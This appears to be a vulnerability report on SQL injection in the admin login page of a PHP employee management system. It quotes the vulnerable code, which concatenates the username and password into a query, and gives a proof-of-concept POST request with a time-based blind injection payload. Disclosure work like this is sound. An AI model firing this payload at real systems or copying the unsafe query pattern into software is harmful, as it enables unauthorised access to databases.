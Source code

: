 ### Vulnerability file address

`Admin/login.php` from line 8,The `$password` parameter is controllable and the `$password` is not protected from sql injection, line 10 `$sql = "SELECT * FROM users WHERE username='".$username."' and password = '".$password."'";` ,line 11 `$result = mysqli_query($conn,$sql);`,line 11 performs a SQL query, causing SQL injection

```php
<?php
include('../inc/topbar.php');

if(isset($_POST['btnlogin']))
{

$username = $_POST['txtusername'];
$password = $_POST['txtpassword'];

$sql = "SELECT * FROM users WHERE username='".$username."' and password = '".$password."'";
$result = mysqli_query($conn,$sql);
$row  = mysqli_fetch_array($result);

 $_SESSION["admin-username"] = $row['username'];

 $count=mysqli_num_rows($result);
```

### POC

```http
POST /CMS/php/employee_akpoly/Admin/login.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: http://10.0.0.20:82
Connection: close
Referer: http://10.0.0.20:82/CMS/php/employee_akpoly/Admin/login.php
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1

txtusername=1&txtpassword=1' AND (SELECT 1860 FROM (SELECT(SLEEP(5)))MFue)-- mLTN&btnlogin=
```

### Attack results pictures

![image-20250128224756816](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501282247855.png)
